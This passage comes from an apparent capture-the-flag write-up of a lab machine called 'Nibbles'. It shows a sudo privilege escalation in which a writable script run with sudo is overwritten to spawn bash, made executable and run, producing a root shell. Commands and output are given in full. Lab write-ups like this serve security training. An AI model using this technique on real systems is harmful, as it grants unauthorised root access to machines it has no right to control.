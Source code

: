 Since we can run this file as `sudo`, we can just put a command in that will give us a shell. Can be as simple as spawning a bash shell. I echoed the following into the `monitor.sh` file:

```
echo $'#!/bin/sh\nbash' > /home/nibbler/personal/stuff/monitor.sh
```

Looking at the contents of `monitor.sh` now shows this:

```
nibbler@Nibbles:~ cat /home/nibbler/personal/stuff/monitor.sh
#!/bin/sh
bash
```

Now all we need to do is make it executable by using `chmod +x` on it and run it as sudo.

```
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/./monitor.sh
```

```
root@Nibbles:~# whoami
root
```

And we are now root!
